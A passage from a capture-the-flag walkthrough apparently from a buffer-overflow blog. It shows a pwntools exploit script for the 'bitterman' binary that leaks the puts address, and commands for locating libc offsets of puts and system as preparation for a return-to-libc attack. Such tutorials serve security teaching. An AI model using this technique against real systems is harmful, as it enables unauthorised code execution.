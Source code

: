 ```python

p.recvuntil("name?")

p.sendline("Amr")

p.recvuntil("message:")

p.sendline("1000")

p.recvuntil("text:")

p.sendline(payload)

p.interactive()
```

Let’s try our initial exploit to make sure everything works fine and then continue to build upon it.

![https://bufferoverflows.net/wp-content/uploads/2019/04/exploit_run.jpg](https://bufferoverflows.net/wp-content/uploads/2019/04/exploit_run.jpg)

I ran the exploit and it works from the first shot! This is not always the case

Great, the program indeed leaked the address of the puts function and I ran it twice to ensure that the address change every time we run the program, now we reached half the way but actually we don’t want the program to crash when we run the exploit because the address changes instead we want to save this leaked address and make the program return to the main function again to continue running.

## **Exploitation :**

To get the address of the **main()** function use this command

`objdump -D bitterman -M intel | grep main`

![https://bufferoverflows.net/wp-content/uploads/2019/04/2019-04-14-09_22_25.jpg](https://bufferoverflows.net/wp-content/uploads/2019/04/2019-04-14-09_22_25.jpg)

Now, we have to calculate the offsets of the functions we are going to use from **libc** with the following steps

Locate where is **libc.so** in Linux

`locate libc.so`

![https://bufferoverflows.net/wp-content/uploads/2019/04/2019-04-14-08_59_37.jpg](https://bufferoverflows.net/wp-content/uploads/2019/04/2019-04-14-08_59_37.jpg)

Copy it to the directory where our programs exists

`cp /usr/lib/x86_64-linux-gnu/libc.so.6 .`

Then we want to extract the addresses of **puts()** and **system()** functions from **libc.so.6**

`readelf -s libc.so.6 | grep puts`

`readelf -s libc.so.6 | grep system`

![https://bufferoverflows.net/wp-content/uploads/2019/04/2019-04-14-09_08_51.jpg](https://bufferoverflows.net/wp-content/uploads/2019/04/2019-04-14-09_08_51.jpg)
